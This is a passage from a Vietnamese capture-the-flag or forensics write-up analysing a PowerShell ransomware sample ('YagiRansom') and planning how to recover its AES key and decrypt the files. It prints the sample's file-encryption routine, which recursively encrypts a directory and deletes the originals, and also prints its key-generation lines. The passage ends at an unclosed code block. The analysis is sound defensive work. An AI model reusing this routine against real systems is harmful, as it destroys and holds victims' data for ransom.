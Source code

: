- ![aaaa](image/12.png)
- Tiếp theo là về phần dữ liệu thực sự của mỗi file, để decrypt thành công được chỗ này ta phải phân tích hàm `EncryptFiles`
```
function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}
```
- Tập trung vào `Invoke-AESEncryption -Key $WiETm -Path $i`, ta thấy chúng lấy các file có trong thư mục mã hoá bằng key là biến  $WiETm được hash sha256.
- Tuy nhiên key $WiETm hiện tại nó chỉ liên quan đến đoạn random : 
```$WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})```
- Nếu sử dụng phương pháp bruteforce sẽ không khả thi, vì độ dài quá lớn.
- Chúng ta còn 1 cách khác là tìm từ các biến đã có:
```
$7VEq = Get-Date -Format "HH:mm - dd/MM/yy" 
$Uz19o = $7VEq.replace(":","").replace(" ","").replace("-","").replace("/","")+$zVSza+$OgE
$cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ;
$cVl = R64Encoder -t $cvf
Invoke-AESEncryption -Key $WiETm -Path $i
```
- Theo như đã biết thì biến `$cVl, $OgE, $zVSza, $7VEq` đã biết sau khi decrypt dữ liệu từ : "> $cVl > $OgE > $zVSza > $7VEq"
- Hướng giải quyết sẽ là `Tìm $Uz19o => Tìm $cvf => Tìm $WiETm => Decrypt file`
#### Tìm $Uz19o
- Vì $Uz19o được tạo thành từ $7VEq, $zVSza, $OgE nên mình sẽ sử dụng powershell để thuận tiện hơn
```